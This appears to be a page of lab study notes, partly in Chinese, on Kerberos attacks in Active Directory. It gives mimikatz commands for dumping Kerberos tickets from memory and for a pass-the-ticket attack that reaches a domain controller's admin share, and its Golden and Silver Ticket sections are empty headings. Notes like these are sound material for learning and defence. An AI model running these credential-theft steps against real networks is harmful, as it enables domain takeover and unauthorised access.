

Kerberos
===
🔙 [MENU README](./AD.md)




# Export Kerberos Tickets
Environment
```bash
# 2019 DC 

klist  
# TGT
# 1. 第一張一定是TGT
# 2. Server : krbtgt (由krbtgt這個帳號簽出來的)

# TGST
# 1. Host  : TGST
```
mimikatz
```bash
# https://github.com/gentilkiwi/mimikatz/releases
mimikatz

privilege::debug

sekurlsa::tickets /export
```
```
@之前的是帳號
krbtgt的是GoldenTicket
```
# Pass The Ticket
```
Windows + R : \\ADWin\c$
Copy mimikatz x64 票券過去

# Win Ad
Change Local Administrator Password
並重新登入Local Administrator

dir \\server2019.lpt.com\admin$ #驗證不會通過
cd 到剛剛複製的mimikatz x64資料夾
```
```bash
mimikatz #進入mimikatz

# 找到Administrator@krbtgt那張票匯入
kerberos::ptt "*.kirbi"

# 查看匯入的票券
kerberos::list
misc::cmd
klist

# 測試已經可以touch到AD
dir \\server2019.lpt.com\admin$

# 清除匯入的票據
kerberos::purge
```

# Golden Ticket Attack (TGT)


# Sliver Ticket Attack (TGST) 